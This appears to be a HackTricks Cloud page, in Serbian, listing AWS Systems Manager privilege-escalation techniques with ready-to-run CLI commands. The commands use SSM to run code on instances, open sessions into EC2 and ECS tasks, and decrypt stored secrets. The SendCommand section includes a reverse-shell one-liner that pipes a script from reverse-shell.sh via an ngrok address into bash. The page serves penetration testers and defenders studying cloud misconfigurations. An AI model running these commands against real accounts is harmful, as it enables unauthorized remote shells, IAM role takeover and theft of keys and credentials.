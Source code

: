 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Za više informacija o SSM proverite:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Napadač sa dozvolom **`ssm:SendCommand`** može **izvršavati komande u instancama** koje pokreću Amazon SSM Agent i **kompromitovati IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
U slučaju da koristite ovu tehniku za eskalaciju privilegija unutar već kompromitovane EC2 instance, možete jednostavno uhvatiti rev shell lokalno sa:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencijalni uticaj:** Direktno privesc na EC2 IAM uloge povezane sa aktivnim instancama sa SSM agentima.

### `ssm:StartSession`

Napadač sa dozvolom **`ssm:StartSession`** može **pokrenuti SSH sličnu sesiju u instancama** koje pokreću Amazon SSM agent i **kompromitovati IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Da biste započeli sesiju, potrebno je da imate instaliran **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencijalni uticaj:** Direktno privesc do EC2 IAM uloga povezanih sa aktivnim instancama sa SSM Agentima.

#### Privesc do ECS

Kada **ECS zadaci** rade sa **`ExecuteCommand` omogućenim**, korisnici sa dovoljno dozvola mogu koristiti `ecs execute-command` da **izvrše komandu** unutar kontejnera.\
Prema [**dokumentaciji**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), to se postiže kreiranjem sigurnog kanala između uređaja koji koristite za iniciranje komande “_exec_” i ciljnog kontejnera sa SSM Session Manager-om. (SSM Session Manager Plugin je neophodan za ovo)\
Stoga, korisnici sa `ssm:StartSession` moći će da **dobiju shell unutar ECS zadataka** sa tom opcijom omogućenom jednostavno pokretanjem:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potencijalni uticaj:** Direktno privesc na `ECS` IAM uloge povezane sa aktivnim zadacima sa omogućenom `ExecuteCommand`.

### `ssm:ResumeSession`

Napadač sa dozvolom **`ssm:ResumeSession`** može ponovo **pokrenuti SSH sličnu sesiju u instancama** koje pokreću Amazon SSM Agent sa **isključenim** stanjem SSM sesije i **kompromitovati IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencijalni uticaj:** Direktno privesc na EC2 IAM uloge povezane sa aktivnim instancama sa SSM agentima i disconected sesijama.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Napadač sa pomenutim dozvolama će moći da prikaže **SSM parametre** i **pročita ih u čistom tekstu**. U ovim parametrima često možete **pronaći osetljive informacije** kao što su SSH ključevi ili API ključevi.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar parametara.

### `ssm:ListCommands`

Napadač sa ovom dozvolom može da prikaže sve **komande** koje su poslate i nada se da će pronaći **osetljive informacije** u njima.
```
aws ssm list-commands
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar komandnih linija.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Napadač sa ovim dozvolama može da prikaže sve **komande** poslate i **pročita izlaz** generisan, nadajući se da će pronaći **osetljive informacije** u njemu.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencijalni uticaj:** Pronađite osetljive informacije unutar izlaza komandnih linija.

### Codebuild

Možete takođe koristiti SSM da uđete u projekat codebuild koji se gradi:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

